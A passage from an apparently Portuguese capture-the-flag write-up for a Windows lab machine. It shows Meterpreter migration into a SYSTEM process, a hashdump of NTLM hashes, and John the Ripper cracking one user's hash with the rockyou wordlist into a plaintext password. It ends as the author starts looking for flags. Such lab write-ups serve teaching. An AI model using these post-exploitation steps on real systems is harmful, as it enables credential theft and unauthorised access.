  2596  684   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2708  1344  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2716  540   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2860  684   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2888  684   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2924  684   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2972  684   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 3004  684   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
 3024  540   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
```

Achei o service.exe que é de id 684

- Depois disso eu migrei para o processo demonstrado utilizando o comando ```migrate <proccess id>```

```
meterpreter > migrate 684
[*] Migrating from 1880 to 684...
[*] Migration completed successfully.
```

- Utilizei então o comando ```hashdump```.  This will dump all of the passwords on the machine as long as we have the correct privileges to do so.
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

- Agora usei o john the ripper duas vezes para entender qual o problema na primeira vez:

```
┌──(ellie㉿Asgard)-[~/Desktop]
└─$ john -wordlist=rockyou.txt hashJon.txt                                                                                                         1 ⚙
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (LM [DES 256/256 AVX2])
No password hashes left to crack (see FAQ)
                                                                                                                                                       
┌──(ellie㉿Asgard)-[~/Desktop]
└─$ john --format=nt -wordlist=rockyou.txt hashJon.txt                                                                                             1 ⚙
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)     
1g 0:00:00:00 DONE (2022-02-18 18:29) 1.960g/s 20000Kp/s 20000Kc/s 20000KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

# Encontrando as flags

Ainda no meterpreter, eu utilizei o comando ```pwd``` para saber o local que estou no computador. Então, encontrei um arquivo chamado flag1.txt.

Após achar esse arquivo, utilizei o seguinte comando:
```